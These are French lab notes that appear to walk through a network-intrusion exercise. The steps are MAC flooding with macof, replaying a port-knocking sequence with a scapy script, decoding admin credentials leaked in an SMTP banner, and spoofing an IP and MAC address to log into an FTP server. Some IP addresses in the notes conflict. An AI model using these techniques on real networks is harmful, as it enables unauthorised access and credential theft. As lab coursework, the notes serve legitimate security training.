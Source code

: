 # Notes - TP3

Pour commencer, on flood la table ARP du switch pour pouvoir récupère le trafic qui passe. Pour cela on utilise `macof` pendant quelques secondes. Ainsi, le switch devient une sorte de hub.

Ensuite, avec tcpdump, on constate un série de requête SYN sur des ports définis : 951, 951, 4826, 443, 100, 21 vers 10.8.0.6. C'est un port knocking. 

On va simuler la même séquence avec notre ip pour voir quel service va s'ouvrir. Pour cela, on utilise ce script :

```python
# Use scapy for port knocking

from scapy.all import *

# Define the target IP
target = "10.5.0.6"

# Define the ports to knock
ports = [951, 951, 4826, 443, 100, 21]

# Send the SYN packet
for port in ports:
		send(IP(dst=target)/TCP(dport=port, flags="S"))
		print("Sent SYN packet to port " + str(port))
```

Après avoir effectué la séquence de port knocking on constate que le port 25 (smtp) de 10.8.0.6 est maintenant ouvert.

Avec telnet, en se connectant sur le port serveur smtp de 10.8.0.6, en exécutant la commande HELO, on reçoit ce message :

```
HELO
250-Welcome - smtp02 - Secondary SMTP Server
250 Primary server at 10.1.8.6
250 YWRtaW46YWRtaW4K
```

Il y a sans doute une relation de confiance entre la 10.8.0.6 et la 10.5.0.6. On va donc prendre l'ip 10.5.0.6 pour voir ce qui se passe :

```
ip addr add 10.1.8.6/24 dev tap0
```

Une fois qu'on a obtenu l'adresse ip, on constate un flux ftp avec tcpdump entre 10.1.8.6 et 10.5.0.6.

On prend l'addresse mac de 10.5.0.6 :

```
sudo ip link set dev tap0 address 12:67:7e:b7:6d:06
```

Ensuite, on peut se connecter au serveur ftp de 10.1.8.6 avec telnet.

Les credentials ont été données dans le serveur SMTP : YWRtaW46YWRtaW4K. Ce qui en base64 signifie admin:admin. 

Ensuite, le fichier contient : 

```
  Version 2022.1.0

          Felicitation, vous avez reussi à trouver le fichier cache.
          Vous pouvez m'envoyer par email la somme de controle de type SHA256 de ce fichier :).
```

Le sha256 : 3a3add5d72321952420787457470f5489e2182e93aeb2854b14f59af96b4536a